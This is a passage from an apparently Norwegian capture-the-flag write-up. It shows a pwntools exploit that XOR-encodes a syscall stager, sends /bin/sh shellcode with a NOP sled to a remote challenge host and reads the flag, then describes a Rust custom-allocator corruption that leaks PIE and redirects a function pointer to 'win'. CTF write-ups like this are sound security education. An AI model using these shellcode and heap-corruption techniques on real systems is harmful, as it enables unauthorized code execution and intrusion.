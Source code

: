 ```python
        print("Failed at")
        print(keystream.hex())
        assert False

    print("Found", keystream.hex())
```

Vi trenger bare 8 bytes med keystream for en stager som leser inn 0xff bytes:

```asm
xchg esi, edx
xor edi, edi
mov dl, 0xff
syscall
```

og deretter kan vi kjøre dette på remote og så skrive inn en "/bin/sh"-shellcode, paddet med en NOP-sled til å være 0xff lang.

```python
shc = bytes.fromhex("87D631FFB2FF0F05")
stage1 = xor(shc, keystream[:len(shc)])
stage2 = asm(shellcraft.sh()).rjust(0xff, b"\x90")
r = remote("3sat.utl", 2003)
r.sendafter(b"\n", stage1 + bytes(4096 - len(stage1)))
r.send(stage2)
r.sendline(b"cat FLAG")
r.interactive()
```


### 2.6.4_arbitrary_code_execution

Beskrivelsen av denne oppgaven kan kokes ned til "Cursed Rust". Det brukes en custom allocator for en del operasjoner, og man kan legge til tilfeldige elementer i en liste. Disse elementene kan printes ut, og dette gjøres ved å kalle en print-funksjon-peker som ligger sammen med hver verdi. Når man kjører en reset så slettes ikke det som ligger der, men pekeren flyttes tilbake til start. Derfor kan man ved å kjøre reset, skrive en u64, reset igjen, og så skrive chars, overskrive pekeren til print-funksjonen for u64.

Dessverre vet vi ikke hvilke chars vi kommer til å skrive, og vi vet heller ikke *hva* vi skal skrive, siden pekeren har en eller annen form for ASLR. Jeg hadde en tanke om å prøve å kunne slette elementer for å overskrive samme sted på nytt og på nytt til vi hadde en plausibel verdi, eller gjøre en partial overwrite, men jeg fikk ikke til noen av delene.

Løsningen ble i stedet å angripe selve allocatoren ved å sende inn et kjempelangt collection-navn når man skriver til fil. For å finne ut hvor win-funksjonen ligger trenger vi en leak, og det kan vi få ved å corrupte `is_empty`-funksjonen.

Endelig sekvens blir da

- Opprette 2x `u64`
- Reset
- Opprett 1x `char` og 1x `array`
- Reset
- Opprett 1x `char` og 2x `u64`
- Print ut elementene for å få en heap leak som gir oss PIE-adressen
- Regn ut adressen til `win` basert på PIE
- Reset igjen og slett alle elementene
- Reset
- Opprett 682x `array`
- Reset
- Skriv til en random fil "lol" med collection-navn 8140x padding + adressen til `win`
